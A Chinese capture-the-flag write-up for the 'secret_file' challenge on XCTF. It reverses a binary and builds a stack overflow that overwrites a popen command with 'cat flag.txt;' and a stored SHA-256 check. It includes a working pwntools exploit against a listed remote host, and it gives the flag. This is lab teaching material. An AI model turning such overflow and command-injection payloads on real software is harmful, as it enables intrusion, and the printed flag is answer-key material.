

# secret_file

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=867492a8-34d2-4707-a4bd-3ae32fddec60_2)

又菜又爱玩。

虽然因为没有libc而无法运行elf，但是远程可以，checksec还能用。

-   Arch:     amd64-64-little
    <br>RELRO:    Full RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      PIE enabled

全明星阵容。看看main。

```c
int Main(void)
{
  byte bVar1;
  int iVar2;
  __ssize_t inputLength;
  char *pcVar3;
  FILE *pointer;
  char *pcVar4;
  byte *pbVar5;
  long in_FS_OFFSET;
  size_t local_308;
  char *input;
  char copyOfInput [256];
  char command [27];
  char local_1dd [65];
  byte local_19c [32];
  char local_17c [64];
  char local_13c [4];
  char someSpace [264];
  long local_30;
  local_30 = *(long *)(in_FS_OFFSET + 0x28);
  FUN_00100e60(copyOfInput);
  local_308 = 0;
  input = (char *)0x0;
  inputLength = getline(&input,&local_308,*(FILE **)PTR_stdin_00301fd8);
  if (inputLength != -1) {
    pcVar3 = strrchr(input,L'\n');
    if (pcVar3 != (char *)0x0) {
      *pcVar3 = '\0';
      pbVar5 = local_19c;
      strcpy(copyOfInput,input);
      FUN_00100dd0(copyOfInput,pbVar5,0x100);
      pcVar3 = local_17c;
      do {
        bVar1 = *pbVar5;
        pcVar4 = pcVar3 + 2;
        pbVar5 = pbVar5 + 1;
        snprintf(pcVar3,3,"%02x",(ulong)bVar1);
        pcVar3 = pcVar4;
      } while (pcVar4 != local_13c);
      iVar2 = strcmp(local_1dd,local_17c);
      if (iVar2 == 0) {
        pointer = popen(command,"r");
        if (pointer != (FILE *)0x0) {
          while( true ) {
            pcVar3 = fgets(someSpace,0x100,pointer);
            if (pcVar3 == (char *)0x0) break;
            printf("%s",someSpace);
          }
          fclose(pointer);
          goto LAB_00100c52;
        }
      }
      else {
        puts("wrong password!");
      }
    }
  }
  iVar2 = 1;
LAB_00100c52:
  if (local_30 == *(long *)(in_FS_OFFSET + 0x28)) {
    return iVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```



这个代码量不像是一般的pwn题。正好我逆向不好，直接拉闸。当然还是要意思一下的。根据运行结果可以从最后的wrong password看起。我们的终极目标是 iVar2 == 0 ，iVar2是strcmp(local_1dd,local_17c);的返回值。local_1dd没有在main函数里发现，local_17c有但不完全有，逻辑需要捋一下。

main函数中pcVar3 = local_17c;将local_17c的指针赋值给pcVar3（应该是指针吧，其实我不知道，但这是最合理的解释）。snprintf(pcVar3,3,"%02x",(ulong)bVar1);将bVar1格式化输出的pcVar3。bVar1 = *pbVar5;说明bVar1的值等于pbVar5指针指向的值。由此可得比较的其实是pbVar5的值。虽然最后有个pcVar3 = pcVar4; ，但是pcVar4其实也等于pcVar3 + 2; ，无伤大雅。看看pbVar5怎么来的。

```c
void FUN_00100dd0(void *param_1,undefined8 *param_2,uint param_3)
{
  long in_FS_OFFSET;
  SHA256_CTX SStack168;
  long local_30;
  *param_2 = 0;
  param_2[1] = 0;
  local_30 = *(long *)(in_FS_OFFSET + 0x28);
  param_2[2] = 0;
  param_2[3] = 0;
  SHA256_Init(&SStack168);
  SHA256_Update(&SStack168,param_1,(ulong)param_3);
  SHA256_Final((uchar *)param_2,&SStack168);
  if (local_30 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

param_1是我们的输入，param_2是pbVar5，param_3为0x100。SHA256_Init(&SStack168) 初始化v5这个指针指向的结构体；SHA256_Update(&SStack168,param_1,(ulong)param_3) 将param_1指向地址param_3长度的字符串进行hash；SHA256_Final((uchar *)param_2,&SStack168) 将最后计算出来的hash摘要存在param_2指向地址的位置。这三个SHA有关函数下来会把我们的输入加密后放到pbVar5里。

是时候探秘local_1dd在哪里被赋值了。main函数内部还剩下一个函数没看过，去看看。

```c
void FUN_00100e60(undefined8 *param_1)
{
  long lVar1;
  undefined8 *puVar2;
  long in_FS_OFFSET;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined2 local_60;
  undefined local_5e;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined local_18;
  long local_10;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_5e = 0;
  puVar2 = param_1;
  for (lVar1 = 0x20; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  local_78 = 0x7461632f6e69622f;
  local_70 = 0x65726365732f2e20;
  local_68 = 0x612e617461645f74;
                    /* /bin/cat ./secret_data.asc */
  local_60 = 0x6373;
  snprintf((char *)(param_1 + 32),0x1b,"%s",&local_78);
  local_58 = 0x6530306137383339;
  local_50 = 0x3563333134653133;
  local_48 = 0x6338306339666135;
  local_40 = 0x6139313164633936;
  local_38 = 0x3366653538363462;
  local_30 = 0x3165626362386362;
  local_28 = 0x3131363132386663;
                    /* 9387a00e31e413c55af9c08c69cd119ab4685ef3bc8bcbe1cf82161119457127 */
  local_20 = 0x3732313735343931;
  local_18 = 0;
  snprintf((char *)((long)param_1 + 0x11b),65,"%s",&local_58);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

这一堆16进制我自己拿去解密了，内容就是注释里写的那些（后面我才发现栈上有）。第二个snprintf将9387a00e31e413c55af9c08c69cd119ab4685ef3bc8bcbe1cf82161119457127格式化输出到param_1 + 0x11b所指的内容。param_1是存储我们输入的指针，加上0x11b正好就是local_1dd。但是吧第一个snprintf似乎是反编译错误，看汇编可以知道在调用snprintf前有这么一句：LEA        RDI,[RBX + 0x100]。rdi是第一个参数，对应上来应该是param_1+0x100才对。注意lea将内存地址直接赋给目的操作数，而不是跟mov一样将内存地址所对应的值赋给目的操作数。比如这里就是直接把RBX + 0x100的结果赋给rdi，而不是这个结果地址处的值赋给rdi。修正后对应的正好是command。

那怎么找到flag呢？

- ### popen
  > popen()会调用fork()产生子进程，然后从子进程中调用/bin/sh -c 来执行参数command 的指令。
  - 声明：FILE * popen(const char * command, const char * type);
  - 参数
    > type -- 可使用 "r"代表读取，"w"代表写入。<br>command -- 要执行的命令。

某种意义上跟system差不多。我们把command改成ls这类查看服务器文件的命令就可以找到flag了。

- ### getline
  > 生成一个包含一串从输入流读入的字符的字符串，直到以下情况发生会导致生成的此字符串结束。1）到文件结束，2）遇到函数的定界符，3）输入达到最大限度。
  - 声明：ssize_t getline(char **lineptr, size_t *n, FILE *stream);
  - 参数
    > lineptr：指向存放该行字符的指针，如果是NULL，则有系统帮助malloc，请在使用完成后free释放。<br>n：如果是由系统malloc的指针，请填0<br>stream：文件描述符

又是一个不检查输入大小的函数，有栈溢出。正好copyOfInput和command和local_1dd是挨着的，没有什么想法吗？我们可以将local_1dd覆盖为输入内容的sha值，这样就可以进入if语句了。把command溢出为ls，就可以查看文件了。ls发现flag名字为flag.txt，现在就可以直接cat了。

```python
from pwn import *
import hashlib
p = remote("61.147.171.105", 53940)
payload=b'a'*0x100
hash_code = hashlib.sha256(payload).hexdigest()
payload = payload+b"cat flag.txt;".ljust(0x1B, b"a") + hash_code.encode("ISO-8859-1")
p.sendline(payload)
p.interactive()
```

- ### Flag
  > cyberpeace{b316dfadc2338d7bb5d7559a1c068757}